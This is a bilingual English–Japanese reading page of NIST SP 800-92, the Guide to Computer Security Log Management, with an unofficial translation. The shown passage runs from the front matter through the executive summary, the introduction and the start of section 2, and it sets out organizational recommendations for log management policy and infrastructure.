

NIST Special Publication · PDF 原文抽出
Guide to Computer Security Log Management
コンピュータセキュリティログ管理ガイド
NIST SP 800-92（Guide to Computer Security Log Management）の英文と日本語訳を段落ごとに並べた閲覧用ページです。組織全体でログ管理の体制と運用プロセスを整備し、ログの生成、転送、保存、分析、廃棄を効果的に行うための指針を示します。 翻訳は有志による非公式のもので、NIST および米国商務省が作成・承認・推奨したものではありません。要件の確認にはNIST の正式版 PDFを参照してください。
PDF から抽出した原文は原本との照合待ちです。
PDF p.2: 抽出できる文字が少ないため OCR または画像の照合が必要
PDF p.3: 抽出できる文字が少ないため OCR または画像の照合が必要
PDF p.44: 抽出できる文字が少ないため OCR または画像の照合が必要
PDF p.45: 抽出できる文字が少ないため OCR または画像の照合が必要
PDF p.65: 抽出できる文字が少ないため OCR または画像の照合が必要
PDF p.66: 抽出できる文字が少ないため OCR または画像の照合が必要
PDF p.67: 抽出できる文字が少ないため OCR または画像の照合が必要
PDF p.68: 抽出できる文字が少ないため OCR または画像の照合が必要
PDF p.69: 抽出できる文字が少ないため OCR または画像の照合が必要
PDF p.71: 二段組の可能性があるため読み順を原本と照合してください
PDF p.72: 二段組の可能性があるため読み順を原本と照合してください
本文の数式はLaTeXの構造からKaTeXで表示しています。
［NIST のロゴ。公的な標章のため、この非公式サイトには掲載していない。原本 PDF を参照。］
Special Publication 800-92
特別刊行物800-92
Guide to Computer Security Log Management
コンピュータセキュリティログ管理ガイド
Recommendations of the National Institute of Standards and Technology
米国国立標準技術研究所の勧告
Karen Kent Murugiah Souppaya
Karen Kent Murugiah Souppaya
Reports on Computer Systems Technology
コンピュータシステム技術に関する報告
The Information Technology Laboratory (ITL) at the National Institute of Standards and Technology (NIST) promotes the U.S. economy and public welfare by providing technical leadership for the nation’s measurement and standards infrastructure. ITL develops tests, test methods, reference data, proof of concept implementations, and technical analysis to advance the development and productive use of information technology. ITL’s responsibilities include the development of technical, physical, administrative, and management standards and guidelines for the cost-effective security and privacy of sensitive unclassified information in Federal computer systems. This Special Publication 800-series reports on ITL’s research, guidance, and outreach efforts in computer security and its collaborative activities with industry, government, and academic organizations.
米国国立標準技術研究所（NIST）の情報技術研究所（ITL）は、米国の計測・標準インフラに技術的リーダーシップを提供し、米国経済および公共の福祉を促進する。ITLは、情報技術の発展および生産的な利用を促すため、試験、試験方法、参照データ、概念実証実装、技術分析を開発する。ITLの責務には、連邦政府のコンピュータシステムにおける機密性の高い非機密情報について、セキュリティとプライバシーを費用対効果高く確保するための技術的、物理的、管理的および運用管理上の標準・ガイドラインの策定が含まれる。この特別刊行物800シリーズは、コンピュータセキュリティに関するITLの研究、ガイダンス、普及活動ならびに産業界、政府、学術機関との協力活動を報告する。
National Institute of Standards and Technology Special Publication 800-92 Natl. Inst. Stand. Technol. Spec. Publ. 800-92, 72 pages (September 2006)
米国国立標準技術研究所 特別刊行物800-92 Natl. Inst. Stand. Technol. Spec. Publ. 800-92、72ページ（2006年9月）

抽出したテキスト（原本と未照合・参考）
Certain commercial entities, equipment, or materials may be identified in this document in order to describe an experimental procedure or concept adequately. Such identification is not intended to imply recommendation or endorsement by the National Institute of Standards and Techn ology, nor is it intended to imply that the entities, materials, or equipment are neces sarily the best available for the purpose.抽出したテキストの訳（原本と未照合・参考）
実験手順または概念を十分に説明するため、本書では特定の商業主体、機器または材料を特定する場合がある（may）。この特定は、米国国立標準技術研究所による推奨または承認を意味するものではなく、また、当該主体、材料または機器が目的に対して必ずしも最良の入手可能なものであることを示すものでもない。Acknowledgements
謝辞
The authors, Karen Kent and Murugiah Souppaya of the National Institute of Standards and Technology (NIST), wish to thank their colleagues who reviewed drafts of this document and contributed to its technical content, especially Bill Burr, Elizabeth Chew, Tim Grance, Bill MacGregor, Stephen Quinn, and Matthew Scholl of NIST, and Stephen Green, Joseph Nusbaum, Angela Orebaugh, Dennis Pickett, and Steven Sharma of Booz Allen Hamilton. The authors particularly want to thank Anton Chuvakin of LogLogic and Michael Gerdes for their careful review and many contributions to improving the quality of this publication. The authors would also like to express their thanks to security experts Kurt Dillard of Microsoft, Dean Farrington of Wells Fargo Bank, Raffael Marty of ArcSight, Greg Shipley of Neohapsis, and Randy Smith of the Monterey Technology Group, as well as representatives from the Department of Energy, the Department of Health and Human Services, the Department of Homeland Security, the Department of State, the Department of Treasury, the Environmental Protection Agency, the National Institutes of Health, and the Social Security Administration, for their valuable comments and suggestions.
著者である米国国立標準技術研究所（NIST）のKaren KentおよびMurugiah Souppayaは、本書の草稿を査読し、技術内容に貢献した同僚に謝意を表する。特に、NISTのBill Burr、Elizabeth Chew、Tim Grance、Bill MacGregor、Stephen Quinn、Matthew Scholl、ならびにBooz Allen HamiltonのStephen Green、Joseph Nusbaum、Angela Orebaugh、Dennis Pickett、Steven Sharmaに感謝する。著者らは特に、Michael Gerdes、およびLogLogicのAnton Chuvakinによる慎重な査読と、本刊行物の品質向上に向けた多くの貢献に感謝する。また、セキュリティ専門家であるMicrosoftのKurt Dillard、Wells Fargo BankのDean Farrington、ArcSightのRaffael Marty、NeohapsisのGreg Shipley、Monterey Technology GroupのRandy Smith、ならびにエネルギー省、保健福祉省、国土安全保障省、国務省、財務省、環境保護庁、国立衛生研究所、社会保障庁の代表者の方々にも、貴重なコメントと提案に対して謝意を表する。
Trademarks
商標
All names are registered trademarks or trademarks of their respective companies.
すべての名称は、それぞれの企業の登録商標または商標である。
Table of Contents
目次
Executive Summary............................................................................................................ES-1
概要........................................................................................................ES-1
1. Introduction ................................................................................................................... 1-1
1. はじめに ................................................................................................................... 1-1
1.1 Authority................................................................................................................ 1-1
1.1 権限................................................................................................................ 1-1
1.2 Purpose and Scope............................................................................................... 1-1
1.2 目的と適用範囲............................................................................................... 1-1
1.3 Audience ............................................................................................................... 1-1
1.3 対象読者 ........................................................................................................ 1-1
1.4 Publication Structure ............................................................................................. 1-1
1.4 刊行物の構成 ................................................................................................. 1-1
2. Introduction to Computer Security Log Management ................................................ 2-1
2. コンピュータセキュリティログ管理の概要 ................................................ 2-1
2.1 The Basics of Computer Security Logs.................................................................. 2-1
2.1 コンピュータセキュリティログの基礎.......................................................... 2-1
2.1.1 Security Software....................................................................................... 2-2
2.1.1 セキュリティソフトウェア.................................................................. 2-2
2.1.2 Operating Systems..................................................................................... 2-4
2.1.2 オペレーティングシステム.................................................................. 2-4
2.1.3 Applications................................................................................................ 2-4
2.1.3 アプリケーション.................................................................................. 2-4
2.1.4 Usefulness of Logs..................................................................................... 2-6
2.1.4 ログの有用性.......................................................................................... 2-6
2.2 The Need for Log Management............................................................................. 2-7
2.2 ログ管理の必要性.......................................................................................... 2-7
2.3 The Challenges in Log Management..................................................................... 2-8
2.3 ログ管理における課題.................................................................................. 2-8
2.3.1 Log Generation and Storage ...................................................................... 2-8
2.3.1 ログの生成と保存.................................................................................. 2-8
2.3.2 Log Protection............................................................................................ 2-9
2.3.2 ログの保護............................................................................................. 2-9
2.3.3 Log Analysis............................................................................................. 2-10
2.3.3 ログ分析............................................................................................... 2-10
2.4 Meeting the Challenges....................................................................................... 2-10
2.4 課題への対処............................................................................................... 2-10
2.5 Summary............................................................................................................. 2-11
2.5 まとめ........................................................................................................... 2-11
3. Log Management Infrastructure................................................................................... 3-1
3. ログ管理インフラストラクチャ........................................................................ 3-1
3.1 Architecture........................................................................................................... 3-1
3.1 アーキテクチャ.............................................................................................. 3-1
3.2 Functions............................................................................................................... 3-3
3.2 機能................................................................................................................ 3-3
3.3 Syslog-Based Centralized Logging Software......................................................... 3-5
3.3 Syslogベースの集中ログ管理ソフトウェア.................................................. 3-5
3.3.1 Syslog Format............................................................................................ 3-5
3.3.1 Syslog形式.............................................................................................. 3-5
3.3.2 Syslog Security .......................................................................................... 3-7
3.3.2 Syslogのセキュリティ .......................................................................... 3-7
3.4 Security Information and Event Management Software ......................................... 3-9
3.4 セキュリティ情報・イベント管理（SIEM）ソフトウェア ............................ 3-9
3.5 Additional Types of Log Management Software................................................... 3-10
3.5 その他の種類のログ管理ソフトウェア....................................................... 3-10
3.6 Summary............................................................................................................. 3-11
3.6 まとめ............................................................................................................. 3-11
4. Log Management Planning........................................................................................... 4-1
4. ログ管理の計画........................................................................................... 4-1
4.1 Define Roles and Responsibilities ......................................................................... 4-1
4.1 役割と責任の定義 ......................................................................... 4-1
4.2 Establish Logging Policies..................................................................................... 4-3
4.2 ロギングポリシーの策定..................................................................................... 4-3
4.3 Ensure that Policies Are Feasible.......................................................................... 4-7
4.3 ポリシーの実行可能性の確保.......................................................................... 4-7
4.4 Design Log Management Infrastructures............................................................... 4-9
4.4 ログ管理インフラストラクチャの設計............................................................... 4-9
4.5 Summary............................................................................................................. 4-10
4.5 まとめ............................................................................................................. 4-10
5. Log Management Operational Processes.................................................................... 5-1
5. ログ管理の運用プロセス.................................................................... 5-1
5.1 Configure Log Sources.......................................................................................... 5-1
5.1 ログソースの構成.......................................................................................... 5-1
5.1.1 Log Generation .......................................................................................... 5-1
5.1.1 ログ生成 .......................................................................................... 5-1
5.1.2 Log Storage and Disposal.......................................................................... 5-2
5.1.2 ログの保存と廃棄.......................................................................... 5-2
5.1.3 Log Security............................................................................................... 5-4
5.1.3 ログのセキュリティ....................................................................... 5-4
5.2 Analyze Log Data.................................................................................................. 5-5
5.2 ログデータの分析.................................................................................................. 5-5
5.2.1 Gaining an Understanding of Logs............................................................. 5-5
5.2.1 ログの理解..................................................................... 5-5
5.2.2 Prioritizing Log Entries ............................................................................... 5-6
5.2.2 ログエントリの優先順位付け ............................................................................... 5-6
5.2.3 Comparing System-Level and Infrastructure-Level Analysis....................... 5-7
5.2.3 システムレベル分析とインフラストラクチャレベル分析の比較....................... 5-7
5.3 Respond to Identified Events................................................................................. 5-8 5.4 Manage Long-Term Log Data Storage .................................................................. 5-9 5.5 Provide Other Operational Support...................................................................... 5-10 5.6 Perform Testing and Validation ........................................................................... 5-10 5.7 Summary............................................................................................................. 5-11
5.3 識別されたイベントへの対応................................................................................. 5-8 5.4 長期ログデータ保存の管理 .................................................................. 5-9 5.5 その他の運用支援の提供...................................................................... 5-10 5.6 試験および検証の実施 ........................................................................... 5-10 5.7 まとめ............................................................................................................. 5-11
List of Appendices
付録一覧
Appendix A— Glossary ........................................................................................................A-1
付録A— 用語集 ........................................................................................................A-1
Appendix B— Acronyms ......................................................................................................B-1
付録B— 略語 ......................................................................................................B-1
Appendix C— Tools and Resources....................................................................................C-1
付録C— ツールとリソース....................................................................................C-1
Appendix D— Index ..............................................................................................................D-1
付録D— 索引 ..............................................................................................................D-1
List of Figures
図一覧
Figure 2-1. Security Software Log Entry Examples ................................................................ 2-3 Figure 2-2. Operating System Log Entry Example ................................................................. 2-4 Figure 2-3. Web Server Log Entry Examples ......................................................................... 2-6 Figure 3-1. Examples of Syslog Messages ............................................................................ 3-6
図2-1. セキュリティソフトウェアのログエントリ例 ................................................................ 2-3 図2-2. オペレーティングシステムのログエントリ例 ................................................................. 2-4 図2-3. Webサーバーのログエントリ例 ......................................................................... 2-6 図3-1. Syslogメッセージの例 ............................................................................ 3-6
List of Tables
表一覧
Table 4-1. Examples of Logging Configuration Settings......................................................... 4-6
表4-1. ロギング構成設定の例......................................................... 4-6
This page has been left blank intentionally.
このページは意図的に空白としている。
Executive Summary
概要
A log is a record of the events occurring within an organization’s systems and networks. Logs are composed of log entries; each entry contains information related to a specific event that has occurred within a system or network. Many logs within an organization contain records related to computer security. These computer security logs are generated by many sources, including security software, such as antivirus software, firewalls, and intrusion detection and prevention systems; operating systems on servers, workstations, and networking equipment; and applications.
ログとは、組織のシステムおよびネットワーク内で発生するイベントの記録である。ログはログエントリで構成され、各エントリにはシステムまたはネットワーク内で発生した特定のイベントに関する情報が含まれる。組織内の多くのログには、コンピュータセキュリティに関する記録が含まれる。これらのコンピュータセキュリティログは、ウイルス対策ソフトウェア、ファイアウォール、侵入検知・防止システムなどのセキュリティソフトウェア、サーバー、ワークステーション、ネットワーク機器のオペレーティングシステム、およびアプリケーションなど、多数のソースによって生成される。
The number, volume, and variety of computer security logs have increased greatly, which has created the need for computer security log management—the process for generating, transmitting, storing, analyzing, and disposing of computer security log data. Log management is essential to ensuring that computer security records are stored in sufficient detail for an appropriate period of time. Routine log analysis is beneficial for identifying security incidents, policy violations, fraudulent activity, and operational problems. Logs are also useful when performing auditing and forensic analysis, supporting internal investigations, establishing baselines, and identifying operational trends and long-term problems. Organizations also may store and analyze certain logs to comply with Federal legislation and regulations, including the Federal Information Security Management Act of 2002 (FISMA), the Health Insurance Portability and Accountability Act of 1996 (HIPAA), the Sarbanes-Oxley Act of 2002 (SOX), the Gramm-Leach-Bliley Act (GLBA), and the Payment Card Industry Data Security Standard (PCI DSS).
コンピュータセキュリティログの数、量、多様性は大幅に増加しており、その結果、コンピュータセキュリティログ管理、すなわちコンピュータセキュリティログデータの生成、転送、保存、分析、廃棄のプロセスが必要となっている。ログ管理は、コンピュータセキュリティ記録を適切な期間、十分な詳細度で保存するために不可欠である。定期的なログ分析は、セキュリティインシデント、ポリシー違反、不正行為、運用上の問題の特定に役立つ。ログは、監査やフォレンジック分析、内部調査の支援、ベースラインの確立、運用傾向や長期的な問題の特定にも有用である。組織は、連邦法令・規制（2002年連邦情報セキュリティ管理法（FISMA）、1996年医療保険の携行性と責任に関する法律（HIPAA）、2002年サーベンス・オクスリー法（SOX）、グラム・リーチ・ブライリー法（GLBA）、ペイメントカード業界データセキュリティ基準（PCI DSS）など）に準拠するため、特定のログを保存・分析する場合もある（may）。
A fundamental problem with log management that occurs in many organizations is effectively balancing a limited quantity of log management resources with a continuous supply of log data. Log generation and storage can be complicated by several factors, including a high number of log sources; inconsistent log content, formats, and timestamps among sources; and increasingly large volumes of log data. Log management also involves protecting the confidentiality, integrity, and availability of logs. Another problem with log management is ensuring that security, system, and network administrators regularly perform effective analysis of log data. This publication provides guidance for meeting these log management challenges.
多くの組織におけるログ管理の根本的な問題は、限られたログ管理リソースと継続的に発生するログデータとの間で、効果的な均衡を取ることである。ログの生成と保存は、ログソースの数が多いこと、ソース間でログの内容、形式、タイムスタンプに一貫性がないこと、ログデータ量が増え続けていることなど、複数の要因によって複雑になる（can）。ログ管理には、ログの機密性、完全性、可用性の保護も含まれる。もう一つの課題は、セキュリティ、システム、ネットワークの管理者がログデータを定期的かつ効果的に分析するよう徹底することである。本刊行物は、これらのログ管理上の課題に対処するためのガイダンスを提供する。
Implementing the following recommendations should assist in facilitating more efficient and effective log management for Federal departments and agencies.
以下の推奨事項を実施することで、連邦政府の省庁・機関におけるログ管理の効率と有効性の向上を支援できるはずである（should）。
Organizations should establish policies and procedures for log management.
組織は、ログ管理のポリシーと手順を策定すべきである（should）。
To establish and maintain successful log management activities, an organization should develop standard processes for performing log management. As part of the planning process, an organization should define its logging requirements and goals. Based on those, an organization should then develop policies that clearly define mandatory requirements and suggested recommendations for log management activities, including log generation, transmission, storage, analysis, and disposal. An organization should also ensure that related policies and procedures incorporate and support the log management requirements and recommendations. The organization’s management should provide the necessary support for the efforts involving log management planning, policy, and procedures development.
ログ管理活動を成功裏に確立・維持するため、組織はログ管理を実施する標準プロセスを策定すべきである（should）。計画プロセスの一環として、組織はロギング要件と目標を定義すべきである（should）。それらに基づき、組織はログの生成、転送、保存、分析、廃棄を含むログ管理活動について、必須要件と推奨事項を明確に定めるポリシーを策定すべきである（should）。組織は、関連するポリシーと手順がログ管理の要件および推奨事項を取り入れ、支援することも確実にすべきである（should）。組織の経営層は、ログ管理の計画、ポリシーおよび手順の策定に関する取り組みに必要な支援を提供すべきである（should）。
Requirements and recommendations for logging should be created in conjunction with a detailed analysis of the technology and resources needed to implement and maintain them, their security implications and value, and the regulations and laws to which the organization is subject (e.g., FISMA, HIPAA, SOX). Generally, organizations should require logging and analyzing the data that is of greatest importance, and also have non-mandatory recommendations for which other types and sources of data should be logged and analyzed if time and resources permit. In some cases, organizations choose to have all or nearly all log data generated and stored for at least a short period of time in case it is needed, which favors security considerations over usability and resource usage, and also allows for better decision-making in some cases. When establishing requirements and recommendations, organizations should strive to be flexible since each system is different and will log different amounts of data than other systems.
ロギングに関する要件および推奨事項は、それらを実装・維持するために必要な技術とリソース、そのセキュリティ上の影響と価値、組織に適用される法令・規制（FISMA、HIPAA、SOXなど）を詳細に分析したうえで策定すべきである（should）。一般に、組織は最も重要なデータのロギングと分析を必須とすべきである（should）。また、それ以外の種類・ソースのデータについて、時間とリソースが許す場合は記録・分析すべきである（should）という任意の推奨事項も設ける。場合によっては、必要となる可能性に備えて、すべてまたはほぼすべてのログデータを生成し、少なくとも短期間保存することを組織が選択する。この方法は、使いやすさやリソース使用量よりセキュリティ上の考慮を優先し、状況によってはより良い意思決定も可能にする。要件と推奨事項を策定する際、各システムは異なり、他のシステムとは異なる量のデータを記録するため、組織は柔軟性を保つよう努めるべきである（should）。
The organization’s policies and procedures should also address the preservation of original logs. Many organizations send copies of network traffic logs to centralized devices, as well as use tools that analyze and interpret network traffic. In cases where logs may be needed as evidence, organizations may wish to acquire copies of the original log files, the centralized log files, and interpreted log data, in case there are any questions regarding the fidelity of the copying and interpretation processes. Retaining logs for evidence may involve the use of different forms of storage and different processes, such as additional restrictions on access to the records.
組織のポリシーと手順では、元のログの保存についても扱うべきである（should）。多くの組織は、ネットワークトラフィックログのコピーを集中管理装置に送るとともに、ネットワークトラフィックを分析・解釈するツールを使用する。ログが証拠として必要になる場合（may）、組織は、複製や解釈の過程の忠実性に疑義が生じたときに備えて、元のログファイル、集中管理されたログファイル、および解釈済みログデータのコピーを取得してもよい（may）。証拠としてログを保持するには、異なる形式の保存や、記録へのアクセスに対する追加制限などの異なる手順が必要となる場合がある（may）。
Organizations should prioritize log management appropriately throughout the organization.
組織は、組織全体でログ管理の優先順位を適切に設定すべきである（should）。
After an organization defines its requirements and goals for the log management process, it should then prioritize the requirements and goals based on the organization’s perceived reduction of risk and the expected time and resources needed to perform log management functions. An organization should also define roles and responsibilities for log management for key personnel throughout the organization, including establishing log management duties at both the individual system level and the log management infrastructure level.
組織はログ管理プロセスの要件と目標を定義した後、ログ管理機能の実施に必要と見込まれる時間とリソース、およびリスク低減効果に基づいて、それらの優先順位を設定すべきである（should）。また、組織全体の主要な要員についてログ管理の役割と責任を定め、個々のシステムレベルとログ管理インフラストラクチャレベルの両方でログ管理の職務を確立すべきである（should）。
Organizations should create and maintain a log management infrastructure.
組織は、ログ管理インフラストラクチャを作成し、維持すべきである（should）。
A log management infrastructure consists of the hardware, software, networks, and media used to generate, transmit, store, analyze, and dispose of log data. Log management infrastructures typically perform several functions that support the analysis and security of log data. After establishing an initial log management policy and identifying roles and responsibilities, an organization should next develop one or more log management infrastructures that effectively support the policy and roles. Organizations should consider implementing log management infrastructures that includes centralized log servers and log data storage. When designing infrastructures, organizations should plan for both the current and future needs of the infrastructures and the individual log sources throughout the organization. Major factors to consider in the design include the volume of log data to be processed, network bandwidth, online and offline data storage, the security requirements for the data, and the time and resources needed for staff to analyze the logs.
ログ管理インフラストラクチャは、ログデータの生成、転送、保存、分析、廃棄に使用するハードウェア、ソフトウェア、ネットワーク、媒体から構成される。通常、ログ管理インフラストラクチャはいくつかの機能を実行し、ログデータの分析とセキュリティを支援する。初期のログ管理ポリシーを確立し、役割と責任を特定した後、組織はそのポリシーと役割を効果的に支援する1つ以上のログ管理インフラストラクチャを開発すべきである（should）。組織は、集中ログサーバーおよびログデータ保存領域を含むログ管理インフラストラクチャの導入を検討すべきである（should）。インフラストラクチャを設計する際、組織は現在および将来のインフラストラクチャのニーズと、組織全体に存在する個々のログソースのニーズの両方を計画すべきである（should）。設計時に検討すべき主な要因には、処理対象ログデータの量、ネットワーク帯域幅、オンラインおよびオフラインのデータ保存、データのセキュリティ要件、ログ分析を行う職員に必要な時間とリソースが含まれる。
Organizations should provide proper support for all staff with log management responsibilities.
組織は、ログ管理の責任を担うすべての職員に適切な支援を提供すべきである（should）。
To ensure that log management for individual systems is performed effectively throughout the organization, the administrators of those systems should receive adequate support. This should include disseminating information, providing training, designating points of contact to answer questions, providing specific technical guidance, and making tools and documentation available.
組織全体で個々のシステムのログ管理を効果的に実施するには、それらのシステムの管理者が十分な支援を受けるべきである（should）。この支援には、情報の周知、研修の提供、質問に回答する連絡窓口の指定、具体的な技術ガイダンスの提供、ツールおよび文書の利用可能化を含めるべきである（should）。
Organizations should establish standard log management operational processes.
組織は、標準的なログ管理運用プロセスを確立すべきである（should）。
The major log management operational processes typically include configuring log sources, performing log analysis, initiating responses to identified events, and managing long-term storage. Administrators have other responsibilities as well, such as the following:
主要なログ管理運用プロセスには通常、ログソースの構成、ログ分析の実施、識別されたイベントへの対応の開始、長期保存の管理が含まれる。管理者には、次のような他の責任もある。
•Monitoring the logging status of all log sources
•すべてのログソースのロギング状態の監視
•Monitoring log rotation and archival processes
•ログのローテーションおよびアーカイブ処理の監視
•Checking for upgrades and patches to logging software, and acquiring, testing, and deploying them
•ロギングソフトウェアのアップグレードおよびパッチの確認、取得、試験、展開
•Ensuring that each logging host’s clock is synched to a common time source
•各ロギングホストの時計が共通の時刻ソースと同期していることの確認
•Reconfiguring logging as needed based on policy changes, technology changes, and other factors
•ポリシー変更、技術変更、その他の要因に応じた必要なロギングの再構成
•Documenting and reporting anomalies in log settings, configurations, and processes.
•ログ設定、構成、プロセスにおける異常の文書化および報告。
This page has been left blank intentionally.
このページは意図的に空白としている。
1. Introduction
1. はじめに
1.1 Authority
1.1 権限
The National Institute of Standards and Technology (NIST) developed this document in furtherance of its statutory responsibilities under the Federal Information Security Management Act (FISMA) of 2002, Public Law 107-347.
米国国立標準技術研究所（NIST）は、2002年連邦情報セキュリティ管理法（FISMA）、公法107-347に基づく法定責務を遂行するため、本書を策定した。
NIST is responsible for developing standards and guidelines, including minimum requirements, for providing adequate information security for all agency operations and assets; but such standards and guidelines shall not apply to national security systems. This guideline is consistent with the requirements of the Office of Management and Budget (OMB) Circular A-130, Section 8b(3), “Securing Agency Information Systems,” as analyzed in A-130, Appendix IV: Analysis of Key Sections. Supplemental information is provided in A-130, Appendix III.
NISTは、すべての機関の業務および資産に対して適切な情報セキュリティを提供するための最低要件を含む標準およびガイドラインを策定する責任を負う。ただし、そのような標準およびガイドラインは国家安全保障システムには適用されない（shall not）。本ガイドラインは、行政管理予算局（OMB）通達A-130第8b(3)項「機関情報システムの保護」の要件と整合しており、その分析はA-130付録IV「主要各節の分析」に示されている。補足情報はA-130付録IIIに示されている。
This guideline has been prepared for use by Federal agencies. It may be used by nongovernmental organizations on a voluntary basis and is not subject to copyright, though attribution is desired.
本ガイドラインは連邦政府機関による使用を想定して作成された。非政府組織も任意で使用してよい（may）。著作権の対象ではないが、出典の明記が望まれる。
Nothing in this document should be taken to contradict standards and guidelines made mandatory and binding on Federal agencies by the Secretary of Commerce under statutory authority, nor should these guidelines be interpreted as altering or superseding the existing authorities of the Secretary of Commerce, Director of the OMB, or any other Federal official.
本書のいかなる記述も、法定権限に基づき商務長官が連邦政府機関に義務付け、拘束力を持たせた標準およびガイドラインに反すると解釈してはならず（should）、また、本ガイドラインは商務長官、OMB長官、その他の連邦政府職員が有する既存の権限を変更または優先して置き換えるものと解釈してはならない（should）。
1.2 Purpose and Scope
1.2 目的と適用範囲
This publication seeks to assist organizations in understanding the need for sound computer security log management. It provides practical, real-world guidance on developing, implementing, and maintaining effective log management practices throughout an enterprise. The guidance in this publication covers several topics, including establishing log management infrastructures, and developing and performing robust log management processes throughout an organization. The publication presents log management technologies from a high-level viewpoint, and it is not a step-by-step guide to implementing or using log management technologies.
本刊行物は、健全なコンピュータセキュリティログ管理の必要性を組織が理解できるよう支援することを目的とする。企業全体で効果的なログ管理の実践を策定、実装、維持するための、実用的で現実に即したガイダンスを提供する。本刊行物のガイダンスは、ログ管理インフラストラクチャの確立や、組織全体で堅牢なログ管理プロセスを策定・実行することなど、複数のトピックを扱う。本刊行物はログ管理技術を高水準の観点から説明するものであり、ログ管理技術の実装方法または使用方法を段階的に示すガイドではない。
1.3 Audience
1.3 対象読者
This publication has been created for computer security staff and program managers; system, network, and application administrators; computer security incident response teams; and others who are responsible for performing duties related to computer security log management.
本刊行物は、コンピュータセキュリティ担当職員およびプログラムマネージャー、システム・ネットワーク・アプリケーション管理者、コンピュータセキュリティインシデント対応チーム、ならびにコンピュータセキュリティログ管理に関する職務を担うその他の人々を対象として作成された。
1.4 Publication Structure
1.4 刊行物の構成
The remainder of this publication is organized into four major sections. Section 2 provides an introduction to computer security log management, including an explanation of log management needs an organization might have and the challenges involved in log management. Section 3 discusses the components, architectures, and functions of log management infrastructures. Section 4 provides recommendations for planning log management, such as defining roles and responsibilities and creating feasible logging policies. Section 5 explains the processes that an organization should develop and perform for log management operations.
本刊行物の残りは、4つの主要な節で構成される。第2節では、組織が持ちうるログ管理上の必要性（might）と、ログ管理に伴う課題の説明を含め、コンピュータセキュリティログ管理を紹介する。第3節では、ログ管理インフラストラクチャの構成要素、アーキテクチャ、機能を論じる。第4節では、役割と責任の定義や実行可能なロギングポリシーの作成など、ログ管理計画に関する推奨事項を示す。第5節では、組織がログ管理運用のために策定し実施すべき（should）プロセスを説明する。
The publication also contains several appendices with supporting material. Appendices A and B contain a glossary and acronym list, respectively. Appendix C lists tools and online and print resources that are useful references for gaining a better understanding of log management. Appendix D contains an index for the publication.
本刊行物には、補足資料を含む複数の付録もある。付録AとBには、それぞれ用語集と略語一覧を収録する。付録Cには、ログ管理への理解を深めるための参考資料として有用なツール、オンライン資料、印刷資料を掲載する。付録Dには本刊行物の索引を収録する。
2. Introduction to Computer Security Log Management
2. コンピュータセキュリティログ管理の概要
A log is a record of the events occurring within an organization’s systems and networks. Logs are composed of log entries; each entry contains information related to a specific event that has occurred within a system or network. Originally, logs were used primarily for troubleshooting problems, but logs now serve many functions within most organizations, such as optimizing system and network performance, recording the actions of users, and providing data useful for investigating malicious activity. Logs have evolved to contain information related to many different types of events occurring within networks and systems. Within an organization, many logs contain records related to computer security; common examples of these computer security logs are audit logs that track user authentication attempts and security device logs that record possible attacks. This guide addresses only those logs that typically contain computer security-related information.1
ログとは、組織のシステムおよびネットワーク内で発生するイベントの記録である。ログはログエントリで構成され、各エントリにはシステムまたはネットワーク内で発生した特定のイベントに関する情報が含まれる。もともとログは主に問題のトラブルシューティングに使われていたが、現在ではシステムやネットワークの性能最適化、ユーザーの行動記録、悪意ある活動の調査に役立つデータの提供など、ほとんどの組織で多くの機能を果たしている。ログには、ネットワークやシステム内で発生する多様な種類のイベントに関する情報が記録されるようになった。組織内の多くのログにはコンピュータセキュリティ関連の記録が含まれ、一般的な例として、ユーザー認証の試行を追跡する監査ログや、攻撃の可能性を記録するセキュリティ機器のログがある。本ガイドが扱うのは、通常コンピュータセキュリティ関連情報を含むログに限る。1
Because of the widespread deployment of networked servers, workstations, and other computing devices, and the ever-increasing number of threats against networks and systems, the number, volume, and variety of computer security logs has increased greatly. This has created the need for computer security log management, which is the process for generating, transmitting, storing, analyzing, and disposing of computer security log data. This section of the document discusses the needs and challenges in computer security log management. Section 2.1 explains the basics of computer security logs. Section 2.2 discusses the laws, regulations, and operational needs involved with log management. Section 2.3 explains the most common log management challenges, and Section 2.4 offers high-level recommendations for meeting them.
ネットワーク接続されたサーバー、ワークステーション、その他のコンピューティング機器が広く導入され、ネットワークやシステムに対する脅威が絶えず増加しているため、コンピュータセキュリティログの数、量、多様性は大幅に増加した。この結果、コンピュータセキュリティログデータを生成、転送、保存、分析、廃棄するプロセスであるコンピュータセキュリティログ管理が必要になった。本節では、コンピュータセキュリティログ管理の必要性と課題について論じる。2.1節ではコンピュータセキュリティログの基礎を説明する。2.2節ではログ管理に関係する法律、規制、運用上の必要性を論じる。2.3節では最も一般的なログ管理の課題を説明し、2.4節ではそれらに対処するための高水準の推奨事項を示す。
2.1 The Basics of Computer Security Logs
2.1 コンピュータセキュリティログの基礎
Logs can contain a wide variety of information on the events occurring within systems and networks.2 This section describes the following categories of logs of particular interest:
ログには、システムおよびネットワーク内で発生するイベントに関する多種多様な情報が含まれる（can）。2 本節では、特に関心の高い次のログの分類について説明する。
•Security software logs primarily contain computer security-related information. Section 2.1.1 describes them.
•セキュリティソフトウェアのログには、主としてコンピュータセキュリティ関連情報が含まれる。これについては2.1.1節で説明する。
•Operating system logs (described in Section 2.1.2) and application logs (described in Section 2.1.3) typically contain a variety of information, including computer security-related data.
•オペレーティングシステムのログ（2.1.2節で説明）およびアプリケーションログ（2.1.3節で説明）には通常、コンピュータセキュリティ関連データを含むさまざまな情報が含まれる。
Under different sets of circumstances, many logs created within an organization could have some relevance to computer security. For example, logs from network devices such as switches and wireless access points, and from programs such as network monitoring software, might record data that could be of use in computer security or other information technology (IT) initiatives, such as operations and audits, as well as in demonstrating compliance with regulations. However, for computer security these logs are generally used on an as-needed basis as supplementary sources of information. This document focuses on the types of logs that are most often deemed to be important by organizations in terms of computer security. Organizations should consider the value of each potential source of computer security log data when designing and implementing a log management infrastructure.
